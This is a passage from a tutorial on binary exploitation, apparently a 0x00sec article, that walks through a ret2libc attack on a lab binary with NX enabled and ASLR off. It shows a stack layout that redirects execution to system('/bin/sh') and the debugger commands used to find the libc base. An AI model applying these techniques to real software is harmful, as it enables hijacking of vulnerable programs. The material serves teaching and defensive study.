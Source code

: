     [─────────────────────────────────────────────────────────────────BACKTRACE──────────────────────────────────────────────────────────────────]
     ► f 0 ffffcd20
    pwndbg>


We hit the `NOP`-sled again, so our positioning is correct!
But these memory pages are not getting executed anymore.
The result is a nasty `SEGSEGV` we do not want..


It's time for some nifty arc injection!

### ret2libc
Starting with return to libc

I won't cover the technique in detail here, since the focus for these articles lies on the defense side of things.
Furthermore we already have multiple challenge and exploit technique writeups, like @IoTh1nkN0t [ret2libc](https://0x00sec.org/t/exploiting-techniques-000-ret2libc/) article.
So I'm reducing any possible overhead/duplicates.

> note: We're still paddling in no ASLR waters here. So no advanced ret2libc either. It's just for demo purposes.


Basic return to libc approach:

    | Top of stack          | EBP      | EIP                                     | Dummy ret addr            | addr of desired shell  |
    |-----------------------|----------|-----------------------------------------|---------------------------|------------------------|
    | AAAAAAAAAA            | AAAA     | Addr of system func (libc)              | e.g. JUNK                 | e.g.    /bin/sh        |



#### Find libc base:  

1. Possible way to find linked libc:

        ldd vuln_with_nx
            linux-gate.so.1 =>  (0xf7ffc000)
            libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xf7e1d000)         # <- this is it
            /lib/ld-linux.so.2 (0x56555000)



2. Let's find the base address of libc via gdb:

        pwndbg> vmmap libc
        LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
        0xf7df7000 0xf7fab000 r-xp   1b4000 0      /lib/i386-linux-gnu/libc-2.24.so     # we want this one
        0xf7fab000 0xf7fad000 r--p     2000 1b3000 /lib/i386-linux-gnu/libc-2.24.so
        0xf7fad000 0xf7fae000 rw-p     1000 1b5000 /lib/i386-linux-gnu/libc-2.24.so
        pwndbg>  


#### find /bin/sh offset:

Now it's time to find the `/bin/sh` in it
